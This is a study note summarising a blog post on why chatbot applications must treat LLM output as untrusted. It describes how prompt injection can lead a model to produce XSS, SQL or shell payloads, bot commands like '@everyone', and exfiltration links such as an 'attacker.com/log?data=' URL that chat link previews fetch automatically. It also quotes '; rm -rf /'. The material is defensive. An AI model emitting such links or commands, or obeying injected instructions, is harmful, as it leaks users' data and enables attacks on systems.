


# ETR-100: Don't Blindly Trust LLM Responses

**Source:** [Don't blindly trust LLM responses. Threats to chatbots.](https://embracethered.com/blog/posts/2023/ai-injections-threats-context-matters/) (Embrace The Red, April 2023)

**In one sentence:** The application uses the model's response in a sensitive context (HTML, SQL, shell, chat commands, or link unfurling); if the response is attacker-influenced it becomes XSS, SQLi, RCE, exfil via GET, or privilege abuse, so the fix is to never trust model output at the point of use.

---

## Overview

The post shifts focus from input (prompt injection) to output: the text the model returns must be treated as untrusted. The author, after building the yolo shell assistant and a Discord chatbot, spells out what happens when an application takes the LLM response and uses it in a sensitive context. If the response is rendered in HTML, you get XSS. If it is spliced into a SQL query, you get SQL injection. If it is passed to the shell, you get command execution. For chatbots specifically, the post calls out: custom text commands (e.g., `!command`), data exfiltration via hyperlink auto-retrieval (many chat apps automatically fetch links in messages to show a preview; if the LLM outputs a URL that contains exfiltrated data in the query string, the chat server will issue a GET to the attacker’s domain with that data), and LLM-generated mentions (e.g., `@everyone`). The lesson is that integration context matters: wherever the response is inserted (web page, database, shell, chat command, or link unfurling), that context determines the attack. Mitigations include least privilege, human in the loop, and fuzzing the client with adversarial model responses.

---

## Core Technologies and Architecture

### Why Model Output Is Untrusted

The model has no security boundary. It generates the most plausible continuation of the prompt. It does not "decide" to be malicious; it has no notion of "this output will be executed as SQL." So from the application’s perspective, the model is an untrusted data source. Anything that can influence the prompt (user input, retrieved web content, plugin output, or indirect injection) can influence the output. So the output can contain:

- Instructions or markup that the application interprets (e.g., JSON keys the app trusts, HTML tags the app renders, or chat syntax like `!cmd` or `@everyone`).
- Payloads that are valid in the downstream context: a string that is safe as "text" can be dangerous when inserted into HTML (XSS), SQL (SQLi), or a shell (RCE). The model does not know the downstream context; the application does. So the application is responsible for never treating model output as trusted in a security-sensitive use.

Analogy: The model is like a contractor who hands you a sheet of text. You then paste that text into a web page, a database query, or a command line. If the sheet contains something that is interpreted (e.g., `` or `; rm -rf /`), the fault is not the contractor’s; it is yours for pasting it into a context that interprets it. So the defensive boundary is at the point of use: sanitize, validate, or avoid using model output in contexts that interpret structure or commands.

### Where Chat Applications Fit in the Stack

A typical chatbot architecture:

- Client (browser or app): User sends a message. The client may display prior messages and the bot’s replies. If the client renders the bot’s reply as HTML (or Markdown that becomes HTML), then any HTML or script in the reply can execute in the user’s browser (XSS). The client might also parse the reply for special syntax (e.g., slash commands, or a legacy `!command` style). If the model output contains that syntax, the client or backend may execute it.
- Backend: Receives user message, optionally fetches external data (e.g., search, documents), builds the prompt, calls the LLM API, gets the reply. The backend may then (a) store the reply, (b) send it to the client for display, (c) parse it for structured data (e.g., JSON for an OrderBot), or (d) trigger link unfurling: many chat platforms automatically request URLs that appear in messages to generate a preview. That request is often server-side (the chat server, or a bot, does an HTTP GET to the URL in the message). So if the message is the model’s reply and the model was tricked (e.g., via indirect injection) into outputting a URL like `https://attacker.com/log?data=<conversation_summary>`, the chat server will fetch that URL. The attacker’s server receives the GET with the query string: data exfiltration. The author’s appendix lists several chat apps (Discord, Skype, Slack, Telegram, Signal, Teams) and their User-Agent strings when they fetch links, confirming that link retrieval is a common, automatic behavior.
- LLM API: Returns plain text. It does not know how the application will use it. So the only place to enforce "do not exfiltrate" or "do not output executable content" is in the application: either constrain the prompt and the model’s role (hard) or treat the output as untrusted and never use it in a sensitive context without validation (essential).

So the integration that creates the vulnerability is: model output flows into a context that interprets it (HTML, SQL, shell, chat commands, or HTTP GET for unfurling). The fix is to break that flow at the integration point: do not render model output as HTML without sanitization; do not build SQL from it; do not execute it as a command; do not interpret it as bot commands without strict allowlisting; and be aware that any URL in the output may be fetched by the chat platform.

---

## Core Concepts

### Output Injection vs Input Injection

Input injection (prompt injection) is when the attacker controls what goes into the prompt and thus influences what the model generates. Output injection (or "output as attack vector") is when the model’s reply is used by the application in a way that causes harm. Often both are involved: input injection is used to make the model output a specific string, and that string is then used in a vulnerable way (HTML, SQL, link). So "don’t trust LLM responses" means: assume the response can be made to contain anything an attacker could achieve by controlling the prompt (directly or indirectly), and ensure that whatever the response contains cannot be abused in your context.

### Link Unfurling and Exfiltration

Optional: chat apps and User-Agent strings

The author's appendix lists several chat apps (Discord, Skype, Slack, Telegram, Signal, Teams) and their User-Agent strings when they fetch links, confirming that link retrieval is a common, automatic behavior. So if the message is the model's reply and the model was tricked into outputting a URL like https://attacker.com/log?data=<conversation_summary>, the chat server will fetch that URL and the attacker's server receives the GET with the query string.

Unfurling (or link preview) is when a chat app sees a URL in a message and fetches it (or its metadata) to show a title, image, or snippet. The fetch is usually done by the server (so the attacker’s server sees the request and can log query parameters, User-Agent, and IP). If the message is generated by an LLM and the LLM was induced (e.g., by indirect injection) to output a message like "Check this out: https://attacker.com?q=SUMMARY_OF_CONVERSATION", and the app replaces "SUMMARY_OF_CONVERSATION" with actual summary or secrets, then when the chat server fetches the link, the attacker receives the data. So the channel is the automatic HTTP GET that the chat platform makes; the payload is the URL (with or without embedded data) that the model was tricked into producing.

### Custom Commands and Mentions

Some chat platforms let bots or users trigger actions via text (e.g., `!subscribe` or `/command`). If the bot’s reply is generated by an LLM and the platform interprets the reply as containing commands or mentions (e.g., `@everyone`), then an attacker who can control the model output (via injection) can cause the bot to effectively issue those commands or mentions. So the threat is elevation: the bot’s reply is treated as having the bot’s privileges (e.g., to mention everyone or run a command). Mitigations include using explicit slash commands with permissions instead of free-form text, and not interpreting model output as command syntax.

---

## Exploit Mechanism

| Step | Actor | Action |
|------|--------|--------|
| 1 | Attacker | Influences the model output (direct or indirect prompt injection) so the reply contains: a URL with exfiltrated data in the query string, or HTML/script (XSS), or SQL fragments, or shell commands, or chat syntax (!command, @everyone). |
| 2 | Application | Uses the reply in a sensitive context: renders as HTML, builds SQL from it, passes to shell, interprets as bot command, or chat platform auto-fetches URLs in the message. |
| 3 | Impact | XSS, SQLi, RCE, data exfiltration to attacker's server via the GET request, or abuse of bot privileges (e.g., @everyone). |

1. Attacker influences the model output (direct or indirect prompt injection) so that the reply contains: a URL with exfiltrated data in the query string, or HTML/script (XSS), or SQL fragments, or shell commands, or chat syntax (`!command`, `@everyone`).
2. Application uses the reply in a sensitive context: renders it as HTML, builds a SQL query from it, passes it to a shell, interprets it as a bot command, or the chat platform auto-fetches URLs in the message.
3. Impact: XSS, SQLi, RCE, data exfiltration to attacker’s server via the GET request, or abuse of bot privileges (e.g., @everyone).

Optional: fuzzing with adversarial responses

Stub the ChatCompletion API and feed the client random or adversarial responses to see how it behaves (XSS, SQLi, command execution, or link fetch). That can catch output-handling bugs before production. The same idea applies when testing: assume the model can be made to return any string an attacker would want in that context.

The prerequisite is that the application or the chat platform trusts the model output in that context. So the fix is to never trust it: sanitize, validate, allowlist, or avoid using it in interpreting contexts; and for link unfurling, consider not unfurling links that appear in bot-generated messages, or sanitize/sandbox the content used to build the URL.

---

## Security

- Model output is untrusted. Treat it like any other user or external input: validate and sanitize before using it in HTML, SQL, shell, or any context that interprets structure or commands.
- Integration context defines the threat. The same string can be harmless in one place and dangerous in another. Threat model every place the response is used (display, storage, API calls, link fetch, command parsing).
- Chat-specific risks: Link unfurling, custom text commands, and mentions are real exfil and privilege vectors when the message content is model-generated and can be influenced by an attacker. Use least privilege for bots and prefer explicit slash commands over free-form interpretation of bot output.
- Fuzzing and testing: Stub the ChatCompletion API and feed the client random or adversarial responses to see how it behaves (XSS, SQLi, command execution, or link fetch). That can catch output-handling bugs before production.

---

## Summary

The post teaches that LLM responses must not be trusted and that the context where the response is used (web, SQL, shell, chat commands, link unfurling) determines the attack. Data exfiltration via hyperlink auto-retrieval is a concrete example: if the model outputs a URL and the chat app fetches it, the attacker’s server can receive data. Custom commands and mentions in bot output can escalate privileges. As an AI security engineer, you should treat every use of model output as a potential injection point and apply the same defenses (sanitization, validation, least privilege, human in the loop for risky actions) that you would for any untrusted input.

---

## References

- [Don't blindly trust LLM responses. Threats to chatbots.](https://embracethered.com/blog/posts/2023/ai-injections-threats-context-matters/) (source post)
- [AI Injections: Direct and Indirect Prompt Injections](https://embracethered.com/blog/posts/2023/ai-injections-direct-and-indirect-prompt-injection-basics/) (companion Embrace The Red post: ETR-101)
